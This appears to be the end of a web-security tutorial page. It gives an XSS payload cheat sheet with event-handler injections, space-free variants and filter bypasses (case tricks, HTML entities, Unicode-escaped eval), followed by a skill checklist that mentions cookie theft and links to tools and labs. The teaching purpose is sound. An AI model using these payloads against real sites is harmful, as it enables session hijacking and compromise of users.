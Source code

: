 ## 📊 XSS Payload Cheat Sheet

### Event Handlers
```html
<img src=x onerror=alert(1)>
<svg onload=alert(1)>
<body onpageshow=alert(1)>
<marquee onstart=alert(1)>
<input autofocus onfocus=alert(1)>
```

### Without Spaces
```html
<svg/onload=alert(1)>
<img/src=x/onerror=alert(1)>
```

### Filter Bypasses
```html
<!-- Case variation -->
<ScRiPt>alert(1)</sCrIpT>

<!-- HTML entities -->
<img src=x onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">

<!-- Unicode -->
<script>eval('\u0061\u006c\u0065\u0072\u0074(1)')</script>
```

---

## 🏆 Skill Check

Before moving on, make sure you can:

- [ ] Identify reflected, stored, and DOM-based XSS
- [ ] Execute basic XSS payloads
- [ ] Steal cookies using XSS
- [ ] Bypass basic filters
- [ ] Implement proper encoding defenses

---

## Additional Resources

### 🔧 Tools
- **XSStrike**: Advanced XSS detection suite
- **BeEF**: Browser Exploitation Framework
- **XSSHunter**: Blind XSS testing platform

### 📖 Further Reading
- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [PortSwigger XSS Labs](https://portswigger.net/web-security/cross-site-scripting)
- [XSS Game by Google](https://xss-game.appspot.com/)

### 🎥 Video Resources
- [LiveOverflow - XSS Tutorial Series](https://www.youtube.com/watch?v=EoaDgUgS6QA)
- [STÖK - XSS Explained](https://www.youtube.com/watch?v=PPzn4K2ZjfU)

---

**Next Tutorial**: [Broken Authentication](broken-authentication.md) → 